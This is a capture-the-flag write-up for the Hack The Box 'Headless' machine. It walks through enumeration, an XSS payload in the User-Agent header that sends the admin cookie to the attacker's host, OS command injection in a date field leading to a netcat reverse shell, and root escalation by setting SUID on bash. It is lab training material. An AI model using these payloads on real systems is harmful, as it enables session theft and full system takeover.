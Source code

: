 # Headless

![1](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/4543266d-1c02-4802-9660-cb05049c426f)

## Enumeration

We use nmap for a general and quick scan for all open ports, and we discover that ports 22 (SSH) and 5000 (upnp) are open.
With this info, we now proceed to do an intense scan in this two ports in order to find out servicies and versions.

![2](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/e347f79f-8c92-4d0a-a49b-cc8c42c27fc1)
![3](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/b002b235-c9ba-487b-8c8c-913f79c44a91)

We can see that SSH version is >7.7 so there are no known vulnerabilities related.

For port 5000, although in the first scan nmap showed it was an upnp service, now with this deeper scan we know that a webserver is being hosted with Werkzeug/2.2.2 and Python/3.11.2. 
There are two important  details we can not miss:

- There is a “Set-Cookie” header refering to a “is_admin” which could be useful in the near future
- Nmap noticed that the service on port 5000 responded not only to regular web requests but also to RTSP requests and got an error message wich could also be useful.

RTSP (Real Time Streaming Protocol) is a network control protocol designed for use in entertainment and communication systems to control streaming media servers.

We can use the browser to navigate to the url and port to see the webpage:

![4](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/5bd70aaa-e1d0-4b28-9932-72510705d6fa)

There is a section in /support that holds a form data and is sent with the same is_admin cookie:
{
  fname=a&lname=a&email=a%40gmail.com&phone=a&message=a
}
but it does not redirect to any page, just reloads the same one.

## Exploitation

At this stage it would be useful to do directory busting in order to see if there are hidden directories in the webserver. Using wfuzz we come up with a /dashboard.

When we manually go there with the browser we get a 401 code:

![5](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/2bbbaaa7-23df-45f1-84c2-5a328bb41e1c)

If we use curl without the is_admin cookie we get a 500 internal server error code.

Lets investigate the cookie is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs 
The first part (before the dot) corresponds to the word user:

![6](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/a69dba25-57fb-48ad-9710-5582408b0b21)

The second part we cant figure out what encoding it uses.

At this point we ran out of options so we should go back to investigate the previous ones.
The support page contains a “message” (textarea input) which could be interesting and potential to vulnerabilities if not sanitized correctly.

![7](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/3b575946-a005-40e3-8cd7-3cd6665d77bf)

If we try to inject <> chars the server flags the comment as forbbiden and displays the warning page so we should try to ofuscate and evade the defensive strategy.
After more investigation, we find out that the server looks for at least one < char and one >. If it has  only < chars or only > chars it will not flag the comment as a hacking attempt.

Using unicode, urlencode and HTML entities to ofuscate the < and > chars will not work, so we have to try another alternative.
Looking at the “Hacking Attempt Detected” image we realise that the User-Agent header could be modified by us in order to inject the XSS payload that would be executed when writing a comment that is flagged as dangerous. 

We will be using BurpSuite with FoxyProxy for intercepting dinamically the request and changing the User-Agent header:

![8](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/ca4ed703-87bb-41d1-86ed-27d9efdf2666)
![9](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/851253ac-3423-4001-80da-f50729b7e0ec)

Perfect! Now we can use the XSS vulnerability to retrieve the “is_admin” cookie to our server.

`<script>document.write('<img src="[http://10.10.14.217:8000/?c='+document.cookie+'](http://10.10.14.217:8000/?c=%27+document.cookie+%27)" />');</script>`

![10](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/f7fa5b91-e1cc-4030-b4b3-4f0db2e20d46)
![11](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/0fda5fa2-6838-438e-85cf-187dacd792e7)

Keep in mind that because we already have a session cookie (the one identifying us as a user), we will first receive the preexistent cookie, but dont panic, the admin cookie will then be received after a few seconds.
As we expected, the first part of the admin cookie is the word “admin” in base64:

![12](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/77849aaa-cfca-40aa-98bb-3a3a7b9c8e00)

Now with the admin cookie we are able to access the /dashboard directory, where we can look up a specific day and see if the systems were up and running.

![13](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/7e7427e0-aeea-4978-9ec3-3ae71acbf2a3)

If we intercept again the request with burpsuite we can see that there is only one input field called date. We should test now if its vulnerable to some kind of injection:

![14](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/3a110565-4a03-4dc0-beb8-8bfd82065796)

Perfect! We find an OS command injection vulnerability. Now we can establish a reverse shell. In order to know which programs the victims pc has, we can use the following command:
`date=2023-09-15;ls /usr/bin | grep {program}`

After checking it has netcat, we can use it to generate the rev shell and…

![15](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/88d76625-36fa-4954-b676-30f819fb324d)

Boom! We now have a remote connection.

## Privilige escalation

In /home we have the user.txt flag

With the command `sudo -l` we can see what binaries we could execute as if we were root, and we have one match: binary /usr/bin/syscheck

![16](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/e7ced48f-95a3-42c5-a6b0-86b30bdc4c61)

It looks like its trying to execute a .sh file in order to start the database. If we look closely, it is using a ./ relative path, so we could modify the existing [initdb.sh](http://initdb.sh) file that is in our /home directory to escalate our priviliges.

Our initdb.sh file should look like this: 

```bash
chmod u+s /bin/bash
```

Now the bash binary has the SUID permission, and with bash -p we can enter the bash session as root

![17](https://github.com/aguspatur22/Hack-the-box-writeups/assets/50930830/3355f215-881e-47b2-bee0-27003e014ee7)

### Pwned!
